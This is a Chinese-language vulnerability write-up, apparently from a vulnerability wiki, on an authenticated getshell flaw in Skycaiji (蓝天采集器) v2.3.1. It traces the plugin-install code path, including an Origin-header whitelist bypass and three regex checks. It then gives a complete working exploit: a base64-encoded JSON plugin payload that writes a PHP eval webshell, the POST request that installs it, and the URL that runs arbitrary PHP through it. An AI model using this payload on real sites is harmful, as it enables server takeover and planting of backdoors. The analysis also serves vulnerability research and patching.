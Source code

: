 蓝天采集器 v2.3.1 后台getshell
==============================

一、漏洞简介
------------

二、漏洞影响
------------

蓝天采集器 v2.3.1

三、复现过程
------------

### 漏洞分析

漏洞出发点位于/SkycaijiApp/admin/controller/Store.php文件中的installPluginAction函数，如图

![1.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId25.png)

首先代码会执行\$this-\>\_checkOrigin();函数，我们跟进一下

![2.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId26.png)

该函数是用来判断请求的来源是否在白名单中，注意到这里获取请求来源使用了\$\_SERVER\[\'HTTP\_ORIGIN\'\]

这里我们只要在请求时加上一个Origin请求头，并将其值改为白名单中的值就可以了，我们看一下白名单的值

![3.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId27.png)

回到
installPluginAction函数，接下来函数将传入的plugin参数先进行base64解密在进行json解码，接着调用\_installPlugin函数，跟进该函数，如图

![4.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId28.png)

这里函数先进行了一系列数据判空操作，接着下来如果满足\$plugin\[\'type\'\]==\'release\'这个条件将会调用addCms函数，我们继续跟进addCms函数，函数位于文件/SkycaijiApp/admin/model/ReleaseApp.php
中，如图

![5.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId29.png)

![6.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId30.png)

首先函数会判断\$cms\[\'app\'\]是否为空，这里无需理会，在利用时只要构造一下就好，接着代码做了三个正则校验，第一个正则来判断\$cms\[\'app\'\]是否符合其命名规范，我们可以使其值为AaAaAa来绕过校验，第二个正则用来判断函数传入的\$code是否存在命名空间，这里我们可以参考一下位于/plugin/release/cms/BaseCms.php文件中的写法，如图

![7.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId31.png)

接着是第三个正则，该处是为了判断类名是否存在，要注意的是类名需要与我们设置的\$cms\[\'app\'\]一样，这里我们可以这么写

class AaAaAa{

过了三个正则后我们会来到write\_dir\_file函数，跟进一下该函数，如图

![8.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId32.png)

该函数用来写文件，那么到目前为止我们就可以在网站中写入一个php文件，但是该文件要存在规定好的命名空间和类，为了写入我们可以利用的一句话，我们可以利用注释符将命名空间和类注视掉，如图

![9.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId33.png)

接下来就可以构造符合条件得exp了

首先将代码base64编码，然后依据上述分析代码中的条件构造符合的json格式的字符串

    {"app":"AaAaAa","name":"test1","type":"release","module":"test2","code":"PD9waHAKLyoKbmFtZXNwYWNlIHBsdWdpblxyZWxlYXNlXGNtczsKCmNsYXNzIEFhQWFBYXsKCXB1YmxpYyAkcmVsZWFzZTsKfSovCkBldmFsKCRfR0VUW2FdKTsKPz4="}

接着把改串json字符串base64编码一下就可以post过去进行利用了。

### 漏洞复现

漏洞点位于后台安装插件功能处，首先登陆后台

1.访问

    http://www.0-sec.org/index.php?s=/Admin/Store/installPlugin

2.添加http头Origin:

    http://www.0-sec.org

3.post输入

    plugin=eyJhcHAiOiJBYUFhQWEiLCJuYW1lIjoidGVzdDEiLCJ0eXBlIjoicmVsZWFzZSIsIm1vZHVsZSI6InRlc3QyIiwiY29kZSI6IlBEOXdhSEFLTHlvS2JtRnRaWE53WVdObElIQnNkV2RwYmx4eVpXeGxZWE5sWEdOdGN6c0tDbU5zWVhOeklFRmhRV0ZCWVhzS0NYQjFZbXhwWXlBa2NtVnNaV0Z6WlRzS2ZTb3ZDa0JsZG1Gc0tDUmZSMFZVVzJGZEtUc0tQejQ9In0=

如图

![10.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId35.png)

接着会在\\plugin\\release\\cms\\下生成AaAaAa.php的一句话后门，如图

![11.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId36.png)

然后在后台点击发布插件选项卡，接着点击开发按钮，如图

![12.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId37.png)

这时会引用我们带有一句话木马的文件，在url上添加a参数即可执行任意php代码，进而getshell，以执行phpinfo为例，访问

    http://www.0-sec.org/index.php?s=/admin/Develop/releaseCms&app=AaAaAa&a=phpinfo();

如图

![13.png](/Users/aresx/Documents/VulWiki/.resource/蓝天采集器v2.3.1后台getshell/media/rId38.png)

参考链接
--------

> https://xz.aliyun.com/t/7873
